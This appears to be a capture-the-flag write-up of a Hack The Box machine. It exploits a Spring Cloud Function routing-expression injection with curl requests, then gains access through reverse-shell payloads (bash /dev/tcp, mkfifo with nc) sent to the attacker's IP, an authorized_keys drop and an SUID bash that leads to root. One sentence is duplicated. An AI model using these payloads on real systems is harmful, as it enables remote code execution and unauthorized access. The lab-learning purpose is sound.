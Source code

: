 The poc works fine on the docker image, lets try to ping ourselves back from the box
```bash
curl -X POST \
  http://10.10.11.204:8080/functionRouter \
  --data-raw 'data' \
  -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping -c1 10.10.14.182")'
```
```json
{"timestamp":"2023-03-12T23:03:53.222+00:00","status":500,"error":"Internal Server Error","message":"EL1001E: Type conversion problem, cannot convert from java.lang.ProcessImpl to java.lang.String","path":"/functionRouter"}
```

Works fine
```bash
sudo tcpdump -i tun0 -v icmp
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:53:31.188558 IP (tos 0x0, ttl 63, id 2456, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.11.204 > 10.10.14.182: ICMP echo request, id 5, seq 1, length 64
22:53:31.188582 IP (tos 0x0, ttl 64, id 53938, offset 0, flags [none], proto ICMP (1), length 84)
    10.10.14.182 > 10.10.11.204: ICMP echo reply, id 5, seq 1, length 64
```

Let's try to get a reverse shels now
```bash
curl -X POST \
  http://10.10.11.204:8080/functionRouter \
  --data-raw 'data' \
  -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("sh -i >& /dev/tcp/10.10.14.182/4242 0>&1")'
```
Failed

```bash
curl -X POST \
  http://10.10.11.204:8080/functionRouter \
  --data-raw 'data' \
  -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.182 4242 >/tmp/f")'
```
Failed

This works and we got a shell as frank
```bash
curl -X POST \
  http://10.10.11.204:8080/functionRouter \
  --data-raw 'data' \
  -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.10.14.182/4242 0>&1")'
```

Frank does not have the user flag, but we can drop a pubkey in `authorized_keys` and get a better shell for more enumeration

Once we ssh to phil's shell, we can see that /bin/bash is already suid. Left by another HTB user.  
We're here to learn so, I'm using the suid shell to login as root, and remove the suid from /bin/bas I'm using the suid shell to login as root, and remove the suid from /bin/bash. 
Finally I log out and back in with the proper shell.  
```bash
bash-5.0# /bin/bash -p
bash-5.0# chmod -s /bin/bash
bash-5.0# exit
```
